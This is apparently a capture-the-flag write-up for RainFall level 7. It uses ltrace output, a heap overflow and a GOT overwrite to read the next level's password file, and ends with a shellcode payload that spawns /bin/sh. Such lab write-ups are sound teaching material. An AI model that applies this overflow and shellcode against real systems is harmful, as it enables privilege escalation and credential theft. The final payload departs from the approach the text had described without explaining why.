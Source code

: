 Segfault with less than 2 args.
interesting  ltrace output:
```
level7@RainFall:~$ ltrace ./level7 a b       
__libc_start_main(0x8048521, 3, 0xbffffd04, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                             = 0x0804a008
malloc(8)                                                                             = 0x0804a018
malloc(8)                                                                             = 0x0804a028
malloc(8)                                                                             = 0x0804a038
strcpy(0x0804a018, "a")                                                               = 0x0804a018
strcpy(0x0804a038, "b")                                                               = 0x0804a038
fopen("/home/user/level8/.pass", "r")                                                 = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

We see that fgets store it's result to a place used only by m(),
so likely we need to change the call to puts() to a call to m()...

Overflowing the first buffer lets us decide where the string of the second one will be copied, we can check that with ltrace easily :
```
 ltrace ./level7 $(python -c 'print "A"*20+"\x60\x99\x04\x08"') BBBB
```
So we just need to replace the values from the GOT

```
./level7 $(python -c 'print "\x6a\x0b\x58\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"+"AAA"+"\x1c\xfc\xff\xbf"') $(python -c 'print "\x18\xa0\x04\x08"')
```
